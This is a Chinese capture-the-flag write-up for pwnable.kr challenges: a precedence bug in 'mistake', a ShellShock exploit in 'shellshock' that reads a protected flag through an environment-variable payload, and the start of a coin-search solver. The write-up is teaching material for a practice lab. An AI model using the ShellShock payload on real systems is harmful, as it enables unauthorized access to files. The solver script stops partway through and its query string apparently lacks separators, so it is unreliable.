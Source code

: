 注意到 `XORKEY` 为 1，也就是说 `xor` 函数只是把字符串的每个字符最低位翻转了一下。此外我们还知道输入的密码和文件中密码都是 10 字节，但我们读取不了后者。

回到题目提示，说和运算符优先级有关，回代码里看看也只有 `fd=open("/home/mistake/password",O_RDONLY,0400) < 0` 可能出问题了，这里会先进行小于号比较，再将结果，一个布尔值，赋值给 `fd`。如果文件正常打开，那么 `fd` 应该为 `false` 也就是 `0`，这就是标准输入流的 fd，换句话说这个 pw_buf 的内容也是我们可以控制的。

之后就容易了，标准输入里输入十个 `b`，然后提示 `input password:` 时输入十个 `c` 使得异或结果正确即可。

## shellshock

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c'echo shock_me'");
        return 0;
}
```

我们需要结合 `ls -al` 的结果来分析代码：

```shell
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 114 root root             4096 May 19 15:59 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

可以看到我们对 `flag` 文件没有任何权限，但是 `shellshock_pwn` 组的用户可以读 `flag`。回到代码中，将 `uid` 和 `gid` 设成 `egid` 后，程序已经拥有了 `shellshock_pwn` 组的权限，可以读到 `flag` 了，只是并没有读 `flag` 的代码。

联系题目提示，我们可以利用 bash 的 [ShellShock 漏洞](https://www.freebuf.com/news/48331.html)，具体原理可以参考链接中的文章。输入 payload：

```shell
$ export foo='() {:;}; /bin/cat flag'
$ ./shellshock
```

## coin1

找假币问题，在 N 个硬币中最多花 C 次来找到唯一的一个较轻的假币，需要在 30 秒内完成 100 次游戏。最经典的解法就是二分，每次称一半，如果重量不是 10 的倍数则其中必定有假币，否则假币在另一半中，这样最多需要 `log(2, n)` 次就能找出假币。需要注意的是，由于网络延迟的关系，最好是在 pwnable.kr 的机器上运行脚本。

```python
from pwn import *
import re

p = remote('localhost', 9007)
ret = p.recv()
sleep(3)

for i in range(100):
    ret = p.recv()
    N = ret[ret.find("N=")+2:ret.find(" ")]
    C = ret[ret.find("C=")+2:ret.find("\n")]
    low = 0
    high = int(N)
    for j in range(int(C)):
        cnt = (high-low) / 2
        mid = low + cnt
        query = ''.join([str(i) for i in range(low, mid)])
        p.sendline(query)
```